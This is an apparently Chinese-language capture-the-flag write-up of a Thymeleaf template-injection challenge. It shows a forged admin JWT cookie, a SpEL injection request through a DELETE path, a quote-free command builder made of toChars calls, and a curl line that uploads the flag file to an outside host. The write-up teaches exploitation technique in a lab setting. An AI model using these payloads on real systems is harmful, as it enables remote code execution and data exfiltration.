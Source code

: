 # thymeleaf

這題我在看時，前半部分隊友已經迅速搞定了

掃目錄發現 swagger、炸 JWT、...

然後發現送以下請求時，會去抓 template path

`curl --cookie 'SESSION=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4iLCJpc3MiOiJYWC1NYW5hZ2VyIiwiaWF0IjoxNjA1NzQ5MTAwfQ.Yihr_zCEo90TPRsCa_yzkt8w_YIE1j4D4hkGdSl-xcA' 'http://180.163.241.5:10001/auth/user/admin3' -X DELETE`

這邊其實就是經典的 thymeleaf 模板注入

但他擋了一些 pattern，要繞一下

```
DELETE /auth/user/__$%7bT(java.lang.Runtime).getRuntime().availableProcessors()%7d__::..x HTTP/1.1
Host: 180.163.241.5:10001
User-Agent: curl/7.69.1
Accept: */*
Cookie: SESSION=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiYWRtaW4iLCJpc3MiOiJYWC1NYW5hZ2VyIiwiaWF0IjoxNjA1NzQ5MTAwfQ.Yihr_zCEo90TPRsCa_yzkt8w_YIE1j4D4hkGdSl-xcA
Connection: close
```

=>

`Error resolving template [auth/user/8]`


由於不能用單雙引號，所以exec的command要想辦法用其他函數構造出來

最後發現

`(0).toString().charAt(0).toChars(99)%5b0%5d.toString()+(0).toString().charAt(0).toChars(117)%5b0%5d.toString()+(0).toString().charAt(0).toChars(114)%5b0%5d.toString()+(0).toString().charAt(0).toChars(108)%5b0%5d.toString()+(0).toString().charAt(0).toChars(32)%5b0%5d.toString()+(0).toString().charAt(0).toChars(107)%5b0%5d.toString()+(0).toString().charAt(0).toChars(97)%5b0%5d.toString()+(0).toString().charAt(0).toChars(105)%5b0%5d.toString()+(0).toString().charAt(0).toChars(98)%5b0%5d.toString()+(0).toString().charAt(0).toChars(114)%5b0%5d.toString()+(0).toString().charAt(0).toChars(111)%5b0%5d.toString()+(0).toString().charAt(0).toChars(46)%5b0%5d.toString()+(0).toString().charAt(0).toChars(116)%5b0%5d.toString()+(0).toString().charAt(0).toChars(119)%5b0%5d.toString()`

可以構造出 `curl kaibro.tw`

並且成功收到請求

最後卡了很久在拿完整shell，因為目標機器是windows，所以不太好搞

後來繞了一大圈拿了完整shell才發現flag就在當前目錄下，用curl直接讀檔就行= =

`curl 140.112.31.105:1111/?a=3 -F a=@flag`

(我們在最後這邊卡了快兩小時，錯失首殺機會QQ)


